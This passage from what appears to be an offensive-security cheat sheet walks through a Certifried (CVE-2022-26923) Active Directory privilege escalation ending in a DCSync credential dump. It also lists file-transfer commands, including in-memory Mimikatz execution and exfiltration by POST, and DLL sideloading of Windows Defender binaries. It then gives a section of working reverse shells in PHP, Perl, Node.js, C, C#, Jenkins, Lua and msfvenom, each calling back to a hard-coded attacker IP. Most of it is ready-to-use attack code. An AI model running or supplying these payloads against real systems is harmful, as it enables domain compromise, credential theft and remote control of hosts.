2. Clear the SPNs attributes that relates to the current `dnsHostName` attribute.
```
addspn.py --clear -t 'FakeComputer$' -u 'domain\user' -p 'password' 'DC.domain.local'
```

3. Change dnsHostName attribute matching the domain controller
```
# RSAT
Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com
```

_Note that above steps 1-3 could be automated with my messy script [certifried.py](https://github.com/aniqfakhrul/certifried.py)_
```
python3 certifried.py range.net/peter:'Welcome1234' -dc-ip 192.168.86.182
```

4. Request certificate with [Certipy](https://github.com/ly4k/Certipy)
```
certipy req range.net/WIN-JLSLKICW6EP\$:'PY2nc0ubG8WT'@ca01.range.net -ca range-CA01-CA -template Machine
```

5. Authenticate with the requested certificate earlier
```
certipy auth -pfx dc01.pfx -dc-ip 192.168.86.182
```

6. [DCSync](#dcsync) and win
```
secretsdump.py domain.local/dc01\$@10.10.10.10 -just-dc -hashes :000000000000000
```

7. It is always recommended to cleanup the created computer account. _(This requires a privileged account)_
```
addcomputer.py range.net/Administrator:'Password123' -computer-name 'WIN-EAZXIGMWO1T$' -computer-pass 'mi#gKKWFlzxJ' -dc-ip 192.168.86.182 -delete
```

For the details explanation of the vulnerability (CVE-2022-26923), you may read the full article [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)

### ADCS References
* https://luemmelsec.github.io/Skidaddle-Skideldi-I-just-pwnd-your-PKI/
* https://www.thehacker.recipes/ad/movement/ad-cs/

# File Transfer

| **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |

# DLL Sideloading
These are all some of my personal favorite sideloading tricks collected from various platforms. 

| Binary | Location | Reference DLL | Export Function | Reference |
|-------|---------|----------|-----|-----|
|NisSrv.exe|`C:\Program Files\Windows Defender\NisSrv.exe`|mpclient.dll|[Source](https://raw.githubusercontent.com/Sh0ckFR/Lockbit3.0-MpClient-Defender-PoC/main/dllmain-NisSrv.cpp)|[Link](https://twitter.com/Sh0ckFR/status/1554021948967079936)|
|MpCmdRun.exe|`C:\Program Files\Windows Defender\MpCmdRun.exe`|mpclient.dll|[Source](https://raw.githubusercontent.com/Sh0ckFR/Lockbit3.0-MpClient-Defender-PoC/main/dllmain-mpcmdrun.cpp)|[Link](https://twitter.com/Sh0ckFR/status/1554021948967079936)|

# Reverse Shells
_Credits: These reverse shells examples are reffered to [EzpzShell](https://github.com/H0j3n/EzpzShell) by [@h0j3n](https://twitter.com/h0j3n)_
### php reverse shell
You can get a full reverse shell script [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by PentestMonkey
```
<?php system("curl http://192.168.86.139/shell.php|php"); ?>
```

### perl reverse shell
```
# Example 1
perl -e 'use Socket;$i="192.168.86.139";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Example 2
use Socket

$i="192.168.86.139";
$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
}
```

### nodejs reverse shell
```
# Example 1
require('child_process').exec('nc -e /bin/sh 192.168.86.139 9001')

# Example 2
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(9001, "192.168.86.139", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

### c reverse shell
```
######################### Example 1 #############################
## Compile : gcc -shared -o libchill.so -fPIC libchill.c

#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int greetings(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
}


######################### Example 2 #############################
## Compile : gcc shell.c -o shell

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("192.168.86.139");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

### c# reverse shell
This c-sharp reverse shell is from [PuckieStyle Blog](https://www.puckiestyle.nl/c-simple-reverse-shell/)._Note: Change `cmd.exe` to `bash` if you are using against linux environment_
```
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient("10.0.2.15", 443))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

### jenkins reverse shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.86.139/9001;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### lua reverse shell
```
# Example 1
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.86.139 9001 >/tmp/f")

# Example 2
lua -e 'os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.86.139 9001 >/tmp/f")'
```

### jsp reverse shell
```
# Msfvenom => msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.86.139 LPORT=9001 -f raw > shell.jsp
```

# References
* https://www.harmj0y.net/
* https://www.labofapenetrationtester.com/
* https://ired.team
* https://github.com/GhostPack/Rubeus
* https://github.com/gentilkiwi/mimikatz/wiki
